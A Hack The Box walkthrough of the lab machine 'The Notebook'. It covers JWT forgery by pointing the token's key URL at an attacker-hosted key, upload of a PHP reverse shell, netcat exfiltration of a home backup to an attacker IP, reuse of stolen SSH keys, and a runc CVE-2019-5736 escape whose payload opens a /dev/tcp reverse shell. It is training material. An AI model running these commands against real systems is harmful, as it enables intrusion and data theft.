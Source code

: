 # Hack The Box Guide by Alen Peric:
## The Notebook
### IP: 10.10.10.230

### Summary: 

The Notebook introduces us to jwt token manipulation. Lots of interesting lessons on base64 encoding/decoding, constructing cookies and manipulating them. Great insight into transferring files using netcat. This machine also shows us how to manipulate the docker exec environment for privilege escalation. Touches on “go” and “tar” files, as well as ssh private keys for verification.

### CVE References:
- CVE-2019-5736 

**-------------------------------------------------------------------------------------------------------------------------------**

### Important Commands:
*ssh-keygen -t rsa -b 4096 -m PEM -f privKey.key
openssl rsa -in privKey.key -pubout -outform PEM -out privKey.key.pub
nc -N 10.10.16.160 1717 < /var/backups/home.tar.gz
nc -nvlp 1717 > home.tar.gz
ssh -i id_rsa noah@10.10.10.230 
Sudo -l
sudo /usr/bin/docker exec -it webapp-dev01 bash
go build main.go*

**-------------------------------------------------------------------------------------------------------------------------------**

### Notes:

Starting with enumeration, we observe that port 22 (SSH) and port 80 (HTTP) are open. There was also port 10010 open with rxapi, however that is a rabbid hole. Start your burpsuite, turn packet intercepts off and let’s head to the website. There is a small webapp running on there, where we are able to create an account and post notes to a website. After some experimenting trying to inject SQL and reverse shells to the website, we observe that there is a token that gets passed through the packet whenever we refresh the page. The cookie token looks like this:

Cookie: auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly9sb2NhbGhvc3Q6NzA3MC9wcml2S2V5LmtleSJ9.eyJ1c2VybmFtZSI6Im1lMTIzIiwiZW1haWwiOiJtZUBtZS5jb20iLCJhZG1pbl9jYXAiOjB9.mtjs7cClGwfZSGFPP8gvpTXuFHCV7UOOxcvc7fvooUKkuOheg1RuiUqWo0Ba7CcC5fBozAU6Vt5jyJ0r1Qmtg1_j8VowZfbqJmwilf89TzDM977yb8WUuqp6fm_rHv0RzJPCQ0V0u_AqOKBr1UOvQsvnwgNO9VcLhpOtRuKovrcf2vY3cwbaK6zNzAT4n9RubQSW2rsmchX3t7FoHzP5Y8HmAbDBZifOEXMymu2Uwjl71S_IHcvGfzweBwa0iYBEsBC4vaDgXh7_RUVx5qn6AjWhrlCRzc24aD-gz-Omy8uVIfVxtRQJ3vyzud1pGkQjJO2bI94c_JjnjFH7WQoXHKjA4PE5bUz-BErCXl2uTPQKrzllKnPzUODfEUNgAQ_HnncBbB48QN69ja63_t3xbaH9Xvo-fiqGBaS68sAdxwFQDLdQ9fN_mcIyu1V9ibiKfZXKbiQmlB-TElmb1BX1bKgu7uLBrWGTV4cM5ucU1fGr0wX6UUazg1mQx5MGEUiCEW9qGL4ihPdUUzZwvP9PgDPGBFJeuwGWeEcnQpahBVEG04Jkmag8hoIMJUTFi35ZpLlcop4NzjSb_btrC0BGT9L6sh5xEeTZcb26g7RdCa5vhVQ_ARhZaUq8C4DIQNWg0uoIEmhSV8ed9JeikAloyUUrKqs44WUPwjDya_ob-2g; uuid=6662433b-f57b-43af-b026-04b151ed1a3c

This is a JWS token. It is encoded in base64. These tokens consist of a header, payload and signature. For this exercise, we will use the websites http://jwt.io and http://base64encode.com / http://base64decode.com/ . We can put the string into http://jwt.io and it shows us some of the fields that are in here. 



You will notice a few things. The red part of the text is the Header, the purple is the Payload and the blue is the signature. The mechanic that occurs here is once the website receives the packet from our host, it will check its localhost on port 7070 in order to make sure the signature of the cookie matches its private key. What we want to do here is modify the packet so that the machine will check our port to verify the signature with our private key. Changing anything on the Header and Payload on jwt.io will not update properly and as such we need to translate our token through the base64 website. We copy the red part of the text, decode it through base64, and change the localhost to our host IP. we re-encode the payload back to base64, add it to a notepad document and append a . to it, which is the separator in the token. We repeat the same for the payload, however, all we changed with the payload was the admin_cap bit from 0 to 1 which is going to make the user you created an admin for this cookie request. Modifying the bit only stays as long as we can generate our own cookie. 

Now it’s time to create a directory mkdir notebook && cd notebook then we generate a new set of ssh keys in this folder with the command: ssh-keygen -t rsa -b 4096 -m PEM -f privKey.key this will generate new RSA keys for us. After this we are going to modify the format by issuing: openssl rsa -in privKey.key -pubout -outform PEM -out privKey.key.pub and then issue the cat command to view both files. We copy the entire key, including the ----BEGINNING OF RSA KEY---- and add both parts to our token in jwt.io website. This should show us that the signature is valid and the entire cookie is constructed. Before we are able to validate the cookie, we have to start hosting our privKey.key on port 7070. In order to accomplish this we start a mini python server on our port 7070, with the command python3 -m http.server 7070. Once this is accomplished, we refresh the notebook page, intercept the packet with burpsuite and replace the cookie token with the one we generated. If everything is done properly, once the website reloads, we should be able to access the admin panel. Remember that each page request will require you to replace the cookie token, in order to maintain admin access to the page. 

We can head to the admin panel now and we notice that we are able to upload files now. I uploaded a simple php reverse shell from Kali’s resources under /usr/share/webshells/php/php-reverse-shell.php or you could use the one from pentest monkey found here: http://pentestmonkey.net/tools/web-shells/php-reverse-shell and set up a netcat listener. Make sure to modify the php shell with your IP and port. Once the shell is uploaded we copy the name generated blablabla.php and append that name to the http://10.10.10.230/blablabla.php and that will trigger the reverse shell to call back to our netcat session. 

Now that we have a connection up and running, we issue the command whoami and it shows us we landed a shell as www-data. Browsing around the directory, we can find a copy of a home directory in /var/backups, as well as a home.tar.gz. While the home directory doesn’t give us all of the read permissions we need, we are able to read home.tar.gz just fine. We issue the command: nc -N 10.10.16.160 1717 < /var/backups/home.tar.gz on the target machine and nc -nvlp 1717 > home.tar.gz on our host machine. This will transfer a copy of home.tar.gz which we can unpack to find a copy of noah’s home directory with the command: tar . In noah’s home is a .ssh folder with a copy of Noah’s private and public key. We can use the private key to authenticate trough ssh, without providing a password. In order to do this, we issue the command ssh -i id_rsa noah@10.10.10.230 

Now that we have access to Noah’s account,  we can cd into his home directory where we find the user flag. Time to escalate our privileges to root! The first thing we do, whenever we test privilege escalation, is to see if the sudo has allowed us to issue any commands as them, without requiring a password. We are able to run the command /usr/bin/docker exec -it webapp-dev01* 

We search for an exploit on google: docker exec exploit github and one of the first results that comes up is a CVE-2019-5736 PoC page: https://github.com/Frichetten/CVE-2019-5736-PoC 
We clone the repository, and modify the main.go file. We will modify the payload, where it says var payload = “blabla”, we will replace it with the following command: var payload = “#!/bin/bash \n echo 'bash -i >& /dev/tcp/10.10.16.160/1337 0>&1'
> /tmp/rev.sh && chmod +x /tmp/rev.sh && bash /tmp/rev.sh"
After this is done, we save the file and build our main by issuing the command go build main.go
This should result in producing a compiled file called just main. Start a mini http server on port 1010 so we are able to upload the main to the target machine as this will be the payload that will be executed to get us to root. We go back to the target machine and issue our sudo command to get into the docker container: sudo /usr/bin/docker exec -it webapp-dev01 bash. Now that we are in the docker container, running as sudo, we open a second instance of noah’s ssh shell and start a netcat listener on port 1337 on our local machine. On the docker instance, we cd into /tmp and then issue a wget http://10.10.16.160:1010/main to download the main we just built with go. Once it is downloaded, we issue the chmod +x ./main command in order to add executable permissions to it. Before we run it, make sure to have the same sudo /usr/bin/docker exec -it webapp-dev01 bash ready in the second terminal, as you’ll have to be quick. Run the ./main in the first docker instance and while it is initializing, issue the command in the second ssh shell and you should hey the response: no help topic for ‘/bin/sh’ if you see this, you’re on the right track and once the command finishes compiling, it should start a shell to root account in the netcat session that is listening on port 1337 should connect via the payload and grant us root permissions. Now we can cd into /root and retrieve our root flag! Good job on finishing this lab!




**-------------------------------------------------------------------------------------------------------------------------------**

### Lessons:

Amazing learns about JWT token manipulation. Aside from being able to redirect the verification process to our local machine and sign with our own private key. The alternative is the ability to change the JWT token’s alg field to none, which omits the need for a signature in the cookie. Lots of great information in here: https://cyberpolygon.com/materials/security-of-json-web-tokens-jwt/ as well as the actual website for decrypting JWT tokens can be found here: https://jwt.io/ 
Additionally, here is a great website to convert base64 and encode it: https://www.base64encode.org/ also there seems to be a brute-forcing tool for jwt tokens on github here: https://github.com/ticarpi/jwt_tool/ 
Getting the root flag is as usual with first issuing the sudo -l command and using a docker exec exploit against it: https://github.com/Frichetten/CVE-2019-5736-PoC The exploit may be found here and all we need to do is manipulate the payload variable in order for it to execute our commands. Also another good look into transferring files using netcat. 
